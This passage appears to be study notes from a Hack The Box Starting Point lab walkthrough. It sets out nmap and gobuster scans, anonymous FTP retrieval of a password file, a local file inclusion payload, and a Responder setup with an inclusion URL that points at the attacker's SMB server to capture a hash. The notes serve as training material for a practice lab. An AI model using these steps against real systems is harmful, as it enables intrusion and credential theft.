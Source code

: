    `nmap -p 21 -sV TARGET_IP`

2. Check HTTP running service (port 80) with version detection

   `nmap -p 80 -sV TARGET_IP`

3. Use **gobuster** to check any useful **php** file

   `gobuster dir -u TARGET_IP -x php -w /user/share/wordlists/dirb/common.txt`

   ![image-20220807140329252](../assets/img/htb-starting-point/1.png)

4. Check the TARGET_IP/login.php in browser

5. As FTP is running, go check the file in FTP

6. `ftp TARGET_IP`, login as `anonymous`, then `ls`

7. ftp> `get allowed.userlist`, ftp> `get allowed.userlist.passwd`

8. input the user **`admin`** with the corresponding password in **.passwd** file to login

# 1.4 Responder

1. Check all ports: `nmap -p- -T5 -sS TARGET_IP`

   ![image-20220807172900458](../assets/img/htb-starting-point/2.png)

2. Check directories: `gobuster dir -u TARGET_IP -w /user/share/wordlists/dirb/common.txt`

   ![image-20220807173447614](../assets/img/htb-starting-point/3.png)

3. Append the domain name resolve with the ip in `/etc/hosts`, to access the webpage

   `echo "TARGET_IP unika.htb" | sudo tee -a /etc/hosts`

   > hosts檔案是一個用於儲存電腦網路中各節點資訊的電腦檔案。這個檔案負責將主機名對映到相應的IP位址。hosts檔案通常用於補充或取代網路中DNS的功能。和DNS不同的是，電腦的使用者可以直接對hosts檔案進行控制。

4. After accessing the page, we notice that the URL parameter **page** is vulenarble for local file inclusion, some wordlist example: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

   `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

   <img src="C:\Me\Github\CPS-Study-Club\cyber-security\assets\img\htb-starting-point\4.png" style="zoom: 80%;" />

5. Check whether the Responder is configured to listen **SMB**, then run responder on the `tun0` interface, use **python3.9** as **python3.10** does not work

   `python3.9 /usr/share/responder/Responder.py -I tun0`

   > config file is located at /usr/share/responder/Responder.conf

8. Tell the server to include a resource from our Responder SMB server by typing the URL

   `http://unika.htb/?page=//{responder_server_ip}/somefile`

8. There would be a hash response to us
